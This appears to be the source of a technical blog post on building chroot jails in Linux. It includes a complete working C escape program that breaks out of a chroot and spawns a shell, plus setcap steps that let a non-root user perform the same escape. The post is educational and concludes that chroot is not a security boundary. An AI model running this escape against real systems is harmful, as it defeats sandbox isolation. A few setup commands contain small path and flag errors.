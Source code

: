 ```yaml
---
layout: post
title: "Chroot Jailing"
vanity: "2021-04-19-chroot-jail"
tags: [operating systems, bash, c]
excerpt_separator: <!--more-->
---
```


{% include blog_vars.html %}

In this post we'll study how to use the utlity `chroot` to create a jailed environment. We'll also cover some security holes with this approach.

<!--more-->

## A Simple Chroot Environment

The `chroot` command can be used to redefine the filesystem tree root as a new directory [1]. If we want a directory, say `$HOME/root/`, to be our new root, we can start a bash shell as:

{% highlight bash %}
mkdir $HOME/root/
sudo chroot $HOME/root/
{% endhighlight %}

This will fail with:

{% highlight bash %}
chroot: failed to run command ‘/bin/bash’: No such file or directory
{% endhighlight %}

The problem is that because `$HOME/root/` is empty, there are no binaries available, so we won't be able to do much.

We can use a simple Bash script to copy the binaries and their dependencies to the new root directory.

`setup.sh`:

{% highlight bash %}
# binaries we want in our chroot
bins=( "/bin/bash" "/bin/ls" "/bin/mkdir" )

NEW_ROOT="$HOME/root"

for bin_file in "${bins[@]}"
do

    # copy binaries
    bin_dir=$(dirname $bin_file)
    mkdir -p $NEW_ROOT$bin_dir
    cp $bin_file $NEW_ROOT$bin_dir

    deps=$(ldd $bin_file)

    # copy dependencies from binaries
    while read -r dep; do
        # ldd returns too much info. we're only interested
        # in the actual files
        dep_file=$(echo $dep | grep -o "\/[a-z0-9_\.\/\-]*")
        if [ ! -z "$dep_file" ]
        then
           dep_dir=$(dirname $dep_file)
           mkdir -p $NEW_ROOT$dep_dir
           cp $dep_file $NEW_ROOT$dep_dir
        fi
    done <<< "$deps"

done
{% endhighlight %}

This adds `/bin/bash`, `/bin/ls`, `/bin/mkdir` and their dependencies to the chroot environment. We can now do:

{% highlight bash %}
./setup.sh
sudo chroot $HOME/root/ /bin/bash
{% endhighlight %}

and in there, inspect the root directory:

{% highlight bash %}
$ ls /
bin  lib  lib64
{% endhighlight %}

note we can't go beyond that:

{% highlight bash %}
$ cd /
$ cd ..
$ ls
bin  lib  lib64
{% endhighlight %}

It's worth noting that `chroot` does not clone the subtree under the new root in any way. `chroot` seems to only impose restrictions on accesses above the new root.

We can verify that by creating a new directory inside the jailed environment:

{% highlight bash %}
$mkdir hello
{% endhighlight %}

If we exit the `chroot` (e.g. with `ctrl+d`) and return to the original process, we'll see the directory is still in `$HOME/root/`.

## Escaping chroot

It's possible to "escape" from a `chroot`ed environment if we have root access and a C binary smuggled in. [2] provides the following code (comments added):

`escape.c`:

{% highlight c %}
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>

#define TEMP_DIR "hole"

int main() {

    int dir_fd, i;

    mkdir(TEMP_DIR, 0755);
    // grab a reference to the current directory
    // since chroot() will change it
    dir_fd = open(".", O_RDONLY);

    chroot(TEMP_DIR);

    // chroot didn't close the dir_fd, so we can
    // use it to switch back to the previous
    // directory
    fchdir(dir_fd);
    close(dir_fd);

    // climb up to the top of the directory enough times
    for(i = 0; i < 1000; i++) {
      chdir("..");
    }

    chroot(".");

    return execl("/bin/sh", "-i", NULL);
}
{% endhighlight %}

The exploit seems to rely on a behavior of `chroot` which removes whatever restrictions from the current chroot environment once a new one is created, so if we have a reference to the directory from the first chroot, it's possible to climb up to the root directory of the original process.

<figure class="center_children">
    <img src="{{resources_path}}/escape.jpeg" alt="Men looking through a tunnel: scene from Shawshank Redemption" />
    <figcaption>Scene from <i>Shawshank Redemption</i></figcaption>
</figure>

Before doing the chroot, we compile and add the binary to the chroot target directory:

{% highlight bash %}
./setup.sh
gcc -static escape.c -o $HOME/root/escape
sudo chroot $HOME/root/ /bin/bash
{% endhighlight %}

Inside the chroot:

{% highlight bash %}
./escape
ls
{% endhighlight %}

which should display the contents from the original process.

## Chroot for non-root

By default, the chroot process has root privileges, but it's possible to start it as a specific user and group, so that we restrict what operations can be performed inside the chroot. For example, if `test_user` is a user we want make a chroot to for, we can do:

{% highlight bash %}
sudo chroot --userspec "test_user:test_user" $HOME/root/ /bin/bash
{% endhighlight %}

The problem is that since the owner of `$HOME/root/` is not `test_user`, they won't be able to do anything. We can create a `home` folder for them:

`setup.sh`:

{% highlight bash %}
...
mkdir -p $NEW_ROOT"/home"
sudo chown test_user:test_user $NEW_ROOT"/home"
{% endhighlight %}

We then generate the `escape` binary in the new home:

{% highlight bash %}
./setup.sh
gcc -static escape.c -o $HOME/root/escape/home
sudo chroot "test_user:test_user" $HOME/root/ /bin/bash
{% endhighlight %}

Inside the chroot:

{% highlight bash %}
home/./escape
ls
{% endhighlight %}

Since `chroot` requires root privileges, they won't be able to break out of the jail using the `escape` binary, so `ls` should still show the jailed directories.

## CAP_SYS_CHROOT capability

There's a more granular permission model than root which is called capabilities. It's possible to grant capabilities to binaries so they can perform operations even without root privileges.

One of them is the ability to run `chroot`, the `CAP_SYS_CHROOT` capability. We can add it to our smuggled binary.

`setup.sh`:

{% highlight bash %}
...
gcc -static escape.c -o $HOME/root/escape/home
sudo setcap 'cap_sys_chroot+ep' $NEW_ROOT"/home/escape"
{% endhighlight %}

Now `test_user` we'll be able to escape the jail even without root privileges.

This makes it hard to detect if there's a vulnerability inside a chroot environment. Hence it seems to be a general recommendation to not rely on chroot for security purposes [3].

## Code

The full code for [escape.c]({{github}}/escape.c) and [setup.sh]({{github}}/setup.sh) are available on [Github]({{github}}).

## References

* [[1](https://en.wikipedia.org/wiki/Chroot)] Wikipedia - Chroot
* [[2](https://filippo.io/escaping-a-chroot-jail-slash-1/
)] Escaping a chroot jail/1
* [[3](https://unix.stackexchange.com/questions/105/chroot-jail-what-is-it-and-how-do-i-use-it#comment36_109)] Unix & Linux: chroot “jail” - what is it and how do I use it?
